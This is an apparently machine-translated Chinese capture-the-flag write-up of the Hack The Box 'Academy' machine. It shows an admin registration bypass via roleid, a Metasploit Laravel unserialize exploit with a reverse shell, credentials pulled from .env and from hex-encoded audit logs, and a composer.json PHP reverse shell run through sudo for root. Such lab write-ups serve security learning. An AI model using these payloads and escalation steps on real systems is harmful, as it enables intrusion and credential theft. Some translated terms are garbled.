







# [HTB]学院奖-报道

> 原文：<https://infosecwriteups.com/htb-academy-writeup-bdbd39d2f364?source=collection_archive---------1----------------------->



这是一个简单的难度框，它涉及多个步骤来完全获得机器上的 root 访问权限。良好的学习途径:

*   Webapp 上注册功能的访问控制旁路
*   RCE 非序列化
*   Linux 审计
*   作曲家权限提升

# **初始侦察**

## **Nmap**

```
**$ nmap -Pn --open -p- -T4 -sV -sC 10.10.10.215**PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to [http://academy.htb/](http://academy.htb/)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

*   HTTP (80/TCP) —根据 Nmap 结果，端口 80 将被重定向到[http://academy.htb/](http://academy.htb/)。一旦我更新了/etc/hosts 文件，我就可以访问下面的 HTB 学院网站:



## **网络目录枚举(Dirsearch)**

像往常一样，我运行了一个快速的目录搜索，看看我是否能列举出任何有趣的页面。

```
**$ python3 dirsearch.py -u** [**http://academy.htb/**](http://academy.htb/) **-e php,txt,html | grep 200**[21:45:39] 200 -    3KB - /admin.php        <-- Interesting                                       
[21:46:05] 200 -    0B  - /config.php       <-- Interesting                                                                      
[21:46:21] 200 -    2KB - /index.php                                                                           
[21:46:21] 200 -    2KB - /index.php/login/
[21:46:26] 200 -    3KB - /login.php
[21:46:43] 200 -    3KB - /register.php
```

*   admin.php—这是另一个用于管理访问的登录页面
*   config.php——这不是很有用

## **出入控制旁路(register.php)**

使用下面的`register.php`函数，我可以注册一个新用户:



当我使用创建的帐户登录时，我是作为`egre55`用户帐户登录的。所有的功能不是不起作用就是静态页面。



接下来，我检查了注册过程的 HTTP 请求，发现了一些有趣的参数，名为`&roleid=0`。它当前配置为 0，但如果我们将其更改为 1，并查看我们是否可以注册一个管理员用户。

`<b>HTTP POST Request (register.php)</b>`

*   常规用户注册

```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 [root@pzsidj86sntf4zemo64tivcs5jbc1ep3.burpcollaborator.net](mailto:root@pzsidj86sntf4zemo64tivcs5jbc1ep3.burpcollaborator.net)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate...snip...uid=bigb0ss&password=bigb0ss&confirm=bigb0ss&roleid=0
```

*   管理员用户注册

```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 [root@pzsidj86sntf4zemo64tivcs5jbc1ep3.burpcollaborator.net](mailto:root@pzsidj86sntf4zemo64tivcs5jbc1ep3.burpcollaborator.net)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate...snip...uid=bigb0ss_a&password=bigb0ss&confirm=bigb0ss&roleid=1
```

它成功地将我的下一个用户 bigb0ss_a 注册为管理员用户。

```
GET /success-page.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 [root@pzsidj86sntf4zemo64tivcs5jbc1ep3.burpcollaborator.net](mailto:root@pzsidj86sntf4zemo64tivcs5jbc1ep3.burpcollaborator.net)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

## **管理页面访问(admin.php)**

通过用`bigb0ss_a`登录，我可以登录到管理页面并发现`dev-staging-01.academy.htb`的另一个子域



## **开发-暂存页面访问**

将`dev-staging-01.academy.htb`域添加到`/etc/hosts file`之后，我就可以访问这个网站了。



# **最初的立足点**

## **拉腊维尔令牌解除 RCE 的序列化**

在这个网站上，有一些有趣的信息，如 MySQL 的信用和 Laravel 的 APP_KEY 信息。



msfconsole 有一个利用 Laravel 令牌非序列化攻击的 POC。

```
msf5 exploit(unix/http/laravel_token_unserialize_exec) > optionsModule options (exploit/unix/http/laravel_token_unserialize_exec):Name       Current Setting                               Required  Description
   ----       ---------------                               --------  -----------
   APP_KEY    **dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=**  no        The base64 encoded APP_KEY string from the .env file
   Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     **10.10.10.215**                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      **80**                                            yes       The target port (TCP)
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      **dev-staging-01.academy.htb**                                                    no        HTTP server virtual hostPayload options (cmd/unix/reverse_perl):Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.25      yes       The listen address (an interface may be specified)
   LPORT  9001             yes       The listen portExploit target:Id  Name
   --  ----
   0   Automatic
```

它工作了，我能够访问到`www-data`用户。

```
msf5 exploit(unix/http/laravel_token_unserialize_exec) > run[*] Started reverse TCP handler on 10.10.14.25:9001 
[*] Command shell session 1 opened (10.10.14.25:9001 -> 10.10.10.215:51848) at 2020-11-10 22:41:49 -0500**id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@academy:/var/www/html/htb-academy-dev-01/public$**
```

# **权限提升**

通过查看`/etc/passwd`，我注意到这个框中有多个用户。

```
$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash...snip...mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
```

## **www-data→cry 011t 3(存储的凭证)**

进一步的枚举发现了包含密码`mySup3rP4s5w0rd!!`的文件`.env`。

```
www-data@academy:/var/www/html/academy$ ls -latotal 280
drwxr-xr-x 12 www-data www-data   4096 Aug 13 12:42 .
drwxr-xr-x  4 root     root       4096 Aug 13 12:36 ..
-rw-r--r--  1 www-data www-data    706 Aug 13 12:42 .env
-rw-r--r--  1 www-data www-data    651 Feb  7  2018 .env.example
-rw-r--r--  1 www-data www-data    111 Feb  7  2018 .gitattributes
-rw-r--r--  1 www-data www-data    155 Feb  7  2018 .gitignore
drwxr-xr-x  6 www-data www-data   4096 Feb  7  2018 app
-rwxr-xr-x  1 www-data www-data   1686 Feb  7  2018 artisan
drwxr-xr-x  3 www-data www-data   4096 Feb  7  2018 bootstrap...snip...www-data@academy:/var/www/html/academy$ cat .envAPP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=[http://localhost](http://localhost)LOG_CHANNEL=stackDB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
**DB_PASSWORD=mySup3rP4s5w0rd!!**...snip...
```

## user.txt

密码对用户帐户`cry0l1t3`有效，我能够以这个用户的身份 SSH 到机器中并读取 user.txt 标志。

```
ssh cry0l1t3@10.10.10.215
cry0l1t3@10.10.10.215's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)* Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)System information as of Wed 11 Nov 2020 04:43:35 AM UTCSystem load:             0.0
  Usage of /:              44.4% of 15.68GB
  Memory usage:            15%
  Swap usage:              0%
  Processes:               176
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.215
  IPv6 address for ens160: dead:beef::250:56ff:feb9:ca60* Introducing self-healing high availability clustering for MicroK8s!
   Super simple, hardened and opinionated Kubernetes for production.[https://microk8s.io/high-availability](https://microk8s.io/high-availability)0 updates can be installed immediately.
0 of these updates are security updates.Last login: Wed Aug 12 21:58:45 2020 from 10.10.14.2
**$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
$ ls
user.txt
$ cat user.txt  
b6f4**REDACTED**1bed**
```

## **cry0l1t3 → mrb3n (Linux 审计)**

更多的枚举发现，Linux 审计文件在`/var/log/audit`目录下。

```
$ ls -la
total 24748
drwxr-x---  2 root adm       4096 Nov  9 10:11 .
drwxrwxr-x 12 root syslog    4096 Nov 11 02:37 ..
-rw-r-----  1 root adm     138988 Nov 11 05:12 audit.log
-r--r-----  1 root adm    8388813 Nov  9 10:11 audit.log.1
-r--r-----  1 root adm    8388720 Sep  4 03:45 audit.log.2
-r--r-----  1 root adm    8388617 Aug 23 21:45 audit.log.3
```

那些是当前用户`cry0l1t3`所在的`adm`组可读的。Linux 审计文件本质上是 Linux `Syscalls`的日志。日志中的一些数据是十六进制格式的。进一步努力找出以下有趣的命令:

```
$ cat audit.log.3 | grep "data"
type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
type=TTY msg=audit(1597199304.778:89): tty pid=2526 uid=1001 auid=0 ses=1 major=4 minor=1 comm="sh" data=77686F616D690A
type=TTY msg=audit(1597199308.262:90): tty pid=2526 uid=1001 auid=0 ses=1 major=4 minor=1 comm="sh" data=657869740A
type=TTY msg=audit(1597199317.622:93): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=2F62696E2F62617368202D690A
```

通过使用一个简单的 Python3 命令，我可以将十六进制转换成文本值，并找到`mrb3n`用户的密码:`mrb3n_Ac@d3my!`

```
cry0l1t3@academy:/var/log/audit$ python3 -c 'import binascii; print(binascii.a2b_hex("7375206D7262336E0A"))'
**b'su mrb3n\n'**cry0l1t3@academy:/var/log/audit$ python3 -c 'import binascii; print(binascii.a2b_hex("6D7262336E5F41634064336D79210A"))'
**b'mrb3n_Ac@d3my!\n'**cry0l1t3@academy:/var/log/audit$ python3 -c 'import binascii; print(binascii.a2b_hex("77686F616D690A"))'
b'whoami\n'cry0l1t3@academy:/var/log/audit$ python3 -c 'import binascii; print(binascii.a2b_hex("657869740A"))'
b'exit\n'
```

获得用户访问权。

```
$ su mrb3n
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
$ bash -i
mrb3n@academy:/var/log/audit$
```

## **mrb3n → root(作曲者)**

`sudo -l`命令显示`mrb3n`用户可以使用 root 权限运行 composer 命令。

```
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

有多种方法可以利用`composer`命令来提升权限。我为权限提升创建了以下`composer.json`文件:

```
{
 "scripts": {
   "post-install-cmd": [
     "php -r '$sock=fsockopen(\"127.0.0.1\",9002);exec(\"/bin/bash -i <&3 >&3 2>&3\");'"
   ],
     "post-update-cmd": [
       "php -r '$sock=fsockopen(\"127.0.0.1\",9002);exec(\"/bin/bash -i <&3 >&3 2>&3\");'"
     ]
 }
}
```

## root.txt

通过运行以下命令，我能够获得 root 访问权限:

```
**$ sudo /usr/bin/composer install**
PHP Warning:  PHP Startup: Unable to load dynamic library...snip...PHP Warning:  fsockopen(): unable to connect to 127.0.0.1:9002 (Connection refused) in Command line code on line 1
**root@academy:/home/mrb3n# id
uid=0(root) gid=0(root) groups=0(root)
root@academy:/home/mrb3n# cat /root/root.txt 
ceb8**REDACTED**3252**
```

感谢阅读！